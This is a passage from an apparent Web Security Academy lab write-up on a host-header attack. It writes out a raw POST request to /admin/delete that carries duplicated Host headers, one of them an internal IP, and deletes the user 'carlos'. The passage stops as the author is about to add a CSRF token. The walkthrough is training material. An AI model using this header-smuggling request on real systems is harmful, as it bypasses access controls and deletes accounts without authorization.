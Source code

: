 ![img](media/1a442219da5fcbb0c0e1f45a254d0669.png)

We will send a new request to delete the user knowing the endpoint is
/admin/delete and the parameter is probably username:

![img](media/73ed5c066a25e35c4f206abfe9767ce6.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the error:

![img](media/b699c3a4808663ab15a6e9b470ff173d.png)

Let's repeat the process and add the csrf value in the response to the previous
GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv"):
